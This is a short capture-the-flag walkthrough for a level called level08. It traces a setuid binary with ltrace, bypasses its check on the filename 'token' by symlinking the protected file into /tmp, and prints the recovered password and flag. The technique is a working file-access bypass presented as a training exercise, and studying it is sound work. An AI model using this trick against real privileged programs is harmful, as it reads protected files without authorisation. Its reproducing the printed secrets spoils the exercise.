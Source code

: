 level08  token

-> ltrace ./level08
__libc_start_main(0x8048554, 1, 0xbffff6e4, 0x80486b0, 0x8048720 <unfinished ...>
printf("%s [file to read]\n", "./level08"./level08 [file to read]
)               = 25
exit(1 <unfinished ...>
+++ exited (status 1) +++

-> ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff6e4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                                 = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)             = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++

-> touch /tmp/level08_test
-> chmod 777 /tmp/level08_test
-> ltrace ./level08 /tmp/level08_test
__libc_start_main(0x8048554, 2, 0xbffff6d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("/tmp/level08_test", "token")                      = NULL
open("/tmp/level08_test", 0, 014435162522)                = 3
read(3, "", 1024)                                        = 0
write(1, "", 0)                                          = 0
+++ exited (status 0) +++

-> ln -s /home/user/level08/token /tmp/level08_ref
-> ./level08 /tmp/level08_ref
quif5eloekouj29ke0vouxean

-> su flag08
-> getflag
25749xKZ8L7DkSCwJkT9dyv6f
-> su level09
